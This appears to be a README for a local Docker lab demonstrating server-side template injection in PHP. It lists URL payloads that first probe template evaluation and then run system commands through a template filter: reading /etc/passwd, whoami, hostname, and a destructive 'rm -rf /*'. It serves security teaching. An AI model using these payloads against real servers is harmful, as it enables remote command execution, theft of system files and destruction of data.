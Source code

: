 # SSTI (Server Side Template Injection) with php

start
```bash
docker-compose up -d 
```


then visit http://localhost

SSTI:

<img src="./ssti.png" alt="" width="666px">

#

try this out, at URL

```bash
http://localhost/?book=${7+7}
#
http://localhost/?book={{7*7}}
#
http://localhost/?book={{7*'7'}}
#
http://localhost/?book={{['cat\x20/etc/passwd']|filter('system')}}
#
http://localhost/?book={{["whoami"]|filter('system')}}
#
http://localhost/?book={{["hostname -I"]|filter('system')}}
#
http://localhost/?book={{["rm -rf /*"]|filter('system')}}

```
